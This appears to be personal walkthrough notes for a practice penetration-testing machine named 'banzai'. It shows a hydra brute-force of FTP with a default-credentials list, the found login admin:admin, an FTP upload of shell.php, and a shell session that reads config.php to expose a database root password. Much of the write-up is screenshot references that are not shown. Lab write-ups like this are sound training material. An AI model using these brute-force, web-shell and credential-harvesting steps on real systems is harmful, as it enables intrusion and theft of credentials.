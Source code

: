 _____

IP=192.168.241.56

# 21 - ftp

brute - force

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $IP ftp
```

admin:admin

![[Pasted image 20240223182926.png]]

Port 8295

![[Pasted image 20240223183026.png]]

put shell.php
port 21

# PrivEsc

![[Pasted image 20240223184125.png]]


```bash
www-data@banzai:/var$ cd www  
www-data@banzai:/var/www$ ls  
config.php html  
www-data@banzai:/var/www$ cat config.php   
<?php  
define(‘DBHOST’, ‘127.0.0.1’);  
define(‘DBUSER’, ‘root’);  
define(‘DBPASS’, ‘EscalateRaftHubris123’);  
define(‘DBNAME’, ‘main’);  
?>
```


